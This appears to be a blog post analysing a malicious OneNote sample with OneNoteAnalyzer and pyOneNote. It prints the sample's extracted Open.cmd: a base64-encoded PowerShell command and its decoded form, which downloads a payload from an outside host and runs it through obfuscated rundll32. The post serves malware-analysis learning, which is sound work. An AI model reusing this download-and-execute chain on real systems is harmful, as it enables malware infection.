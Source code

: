 +++
title = "Exploring OneNote Forensic tools"
draft = false
tags = ["OneNote","Maldocs",".one"]
categories = ["Malware"]
ShowToc = true
author = ["connar"]
+++

## Intro
In this post, I will be writing my notes regarding some OneNote forensic tools that I got my hands on, but also the analysis of a sample I got from MalwareBazar to practise. The tools are:  
- OneNoteAnalyzer.exe
- pyonenote.py

The sample I practised on is the following:
- https://bazaar.abuse.ch/download/9019a31723e8dde778639cf5c1eb599bf250d7b6a3a92ba0e3c85b0043644d93/

## Viewing the sample
Opening the sample in an online .one viewer, we can observe the following:

![](/posts/onenote/onenote1.png)  

We can see that a .cmd script is placed at the 'Open' button which is what the document asks the user to double click. It obviously tries to convince the user into running the .cmd script. Let's use the OneNoteAnalyzer.exe tool to extract this script along with other relevant information attached to the document.

## OneNoteAnalyzer
The use of this tool is simple. We only need to run the command ```OneNoteAnalyzer.exe --file [file]``` and get the output and extracted files:  

![](/posts/onenote/onenote2.png)  

Let's also use the pyonenote.py tool before proceeding to analyze the extracted files.

## pyonenote
We can get the pyonenote tool from the following repo:  
- https://github.com/DissectMalware/pyOneNote  

Running the script finds the same information as the previous tool, just in a more verbose way:  

![](/posts/onenote/onenote4.png)  

## Extracted files - Open.cmd

The file that is of most interest to us is the open.cmd file. Opening the file and viewing its contents, we see the following command:
```cmd
powershell.exe [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('DQpAZWNobyBvZmYNCg0KcG93ZXJzaGVsbCBJbnZva2UtV2ViUmVxdWVzdCAtVVJJIGh0dHBzOi8vYXJhZGNhcGl0YWwuY29tL01wRDhZay8wMC5naWYgLU91dEZpbGUgQzpccHJvZ3JhbWRhdGFcYmlnLmpwZw0KY2FsbCBydSUxbDMyIEM6XHByb2dyYW1kYXRhXGJpZy5qcGcsRGxsUmVnaXN0ZXJTZXJ2ZXINCg0KZXhpdA0K')) > C:\ProgramData\in.cmd&&start /min C:\ProgramData\in.cmd ndl
```
Decoding the base64 code, we end with the following command:
```cmd
@echo off

powershell Invoke-WebRequest -URI https://aradcapital.com/MpD8Yk/00.gif -OutFile C:\programdata\big.jpg
call ru%1l32 C:\programdata\big.jpg,DllRegisterServer

exit
```

So basically this cmd file decodes an encoded base64 string, saves it in another cmd file named ```in.cmd``` and then runs it with the ndl parameter which specifies that directory names are not to be logged.

This decoded base64 string as we saw by decoding it is another powershell command that downloads file named ```00.gif``` and outputs it in another file named ```big.jpg```. Then it proceeds to run it by using rundll32 in an obfuscated way. So we can safely assume this file is a .dll file.

All that's left to do is analyze the DLL which can be found at:  
- https://bazaar.abuse.ch/sample/5fb7f3fac0a9b9ab243ee642a0775500c524166ef075035c9510ccbab76ad633/

## Extracted files - big.jpg
Downloading the file and running the ```file``` command on it, we get the following info:
```cmd
┌──(connar㉿kali)-[~/blog/oneNote_samples]
└─$ file big.jpg 
big.jpg: PE32 executable (DLL) (GUI) Intel 80386, for MS Windows
```

Initially opening the dll in Ghidra, it seems to be packed. For this purpose I uploaded it to any.run to observe its activity, and got the following feedback:  

![](/posts/onenote/onenote3.png)  

Searching various strings, hashes and even bytes, I found out that there was a debate of whether this malware was of the family ```Matanbuchus``` but it ended up being related to ```PikaBot``` and was named ```Beep-Malware```.  I will try and analyze this dll in [another post](https://connar.github.io/posts/beepmalware.md) and share what I learned along the way:) 

That is it for this post!

**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://www.youtube.com/watch?v=Yhq_bd3ppBw">Guided Hacking: <i>Malicious OneNote Documents - Malware Analysis</i></a></li>
        <li> [2] <a href="https://github.com/pan-unit42/tweets/blob/master/2023-02-07-IOCs-for-probable-Matanbuchus-activity.txt">pan-unit42: 2023-02-07-IOCs-for-probable-Matanbuchus-activity.txt</i></a></li>
</i></a></li>
    </ul>
</blockquote>